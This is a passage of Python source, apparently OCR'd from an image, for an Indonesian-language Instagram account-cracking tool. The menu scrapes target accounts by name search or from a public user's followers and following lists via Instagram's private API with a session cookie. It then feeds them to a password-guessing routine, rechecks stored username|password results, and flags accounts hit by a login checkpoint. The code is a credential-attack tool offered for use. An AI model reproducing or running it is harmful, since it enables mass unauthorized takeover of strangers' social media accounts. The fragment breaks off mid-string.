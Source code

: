 			self.checkAPI(user,pw)

	def menu(self):
		self.logo()
		c=input(f' >> ')
		if c=='':
			self.menu()
		elif c in ('1','01'):
			m=int(input(f'\n [{U}?{C}] Masukan jumlah target: '));print('')
			for i in range(m):
				i+1
				nama=input(f' [{U}>{C}] Masukan nama pencarian ({H}{len(internal)}{C}): ')
				name=self.searchAPI(self.cookie,nama)
			self.passwordAPI(name)

		elif c in ('2','02'):
			print(f'\n [{M}!{C}] Target harus bersifat publik jangan privat')
			m=input(f' [{M}?{C}] Masukan username instagram: ')

			id=self.idAPI(self.cookie,m)
			info=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/followers/?count=100000',id)
			self.passwordAPI(info)

		elif c in ('3','03'):
			print(f'\n [{M}!{C}] Target harus bersifat publik jangan privat')
			m=input(f' [{M}?{C}] Masukan username instagram: ')

			id=self.idAPI(self.cookie,m)
			info=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/following/?count=100000',id)
			self.passwordAPI(info)


		elif c in ('4','04'):
			print('')
			for i in os.listdir('result'):
				print(f' [{U}>{C}] {i}')
			c=input(f'\n {U}>>>{C} Masukan nama file: ')
			g=open("result/%s"%(c)).read().splitlines()
			print(f'\n [{U}+{C}] Total Result Hussain {H}{len(g)}{C}')
			print(f'\n [{M}!{C}] Proses mengecek status akun. silahkan tunggu sebentar\n')
			for s in g:
				usr=s.split("|")[0]
				pwd=s.split("|")[1]
				self.checkAPI(usr,pwd)
			exit(f'\n\n [{U}#{C}] proses check selesai...')

		elif c in ('5','05'):
			print('')
			for i in os.listdir('result'):
				print(f' [{U}>{C}] {i}')
			c=input(f'\n {U}>>>{C} Masukan nama file: ')
			g=open("result/%s"%(c)).read().splitlines()
			xx=c.split("-")
			xc=xx[0]
			print(f'\n [{U}>{C}] Total result yang di temukan [{H}{len(g)}{C}]')
			for s in g:
				usr=s.split("|")[0]
				pwd=s.split("|")[1]
				fol=s.split("|")[2]
				ful=s.split("|")[3]
				if xc=="checkpoint":
					print(f"""
 [{M}+{C}] {M}CHECKPOINT LOGIN{C}:
  {M}|{C}
  {M}├╴>{C} Username: {O}{usr}{C}